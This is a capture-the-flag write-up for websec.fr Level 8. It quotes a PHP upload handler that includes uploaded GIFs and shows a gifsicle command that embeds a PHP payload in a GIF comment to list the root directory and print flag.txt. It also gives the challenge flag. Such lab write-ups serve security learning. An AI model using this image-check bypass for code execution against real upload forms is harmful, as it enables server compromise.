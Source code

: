 # Level 8

1. First, lets check what is written in http://websec.fr/level08/source.php
2. Then we could find the function : 
    ```
    if (getimagesize ($_FILES['fileToUpload']['tmp_name']) !== false) {
        if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) {
            move_uploaded_file ($_FILES['fileToUpload']['tmp_name'], $uploadedFile);
            echo '<p class="lead">Dump of <a href="/level08' . $uploadedFile . '">'. htmlentities($_FILES['fileToUpload']['name']) . '</a>:</p>';
            echo '<pre>';
            include_once($uploadedFile);
            echo '</pre>';
            unlink($uploadedFile);
        } else { echo '<p class="text-danger">The file is not a GIF</p>'; }
    } else { echo '<p class="text-danger">The file is not an image</p>'; }
    ```
    ```
    getimagesize()
    exif_imagetype()
    ```
    These two are used to check if the file is .gif or not, so we have to upload .gif with no doubt.
3. Now, we should think of a way to put scripts in a gif. Since my system is kali, I use the package : 
    ```
    apt-get install gifsicle
    ```
    This allow me to insert php into gif.
4. Then I download a gif (remember to notice the size) and use the command below : 
    ```
    gifsicle < yourgif.gif --comment "<?php print_r(scandir('/'));  show_source('flag.txt'); ?>" > output.php.gif
    ```
    print_r(scandir('/')) is such as "ls" or "dir", so it is only used to check what exactly is the name of the flag. Finally we can get the flag after we upload it.
6. Here is the flag : WEBSEC{BypassingImageChecksToRCE}
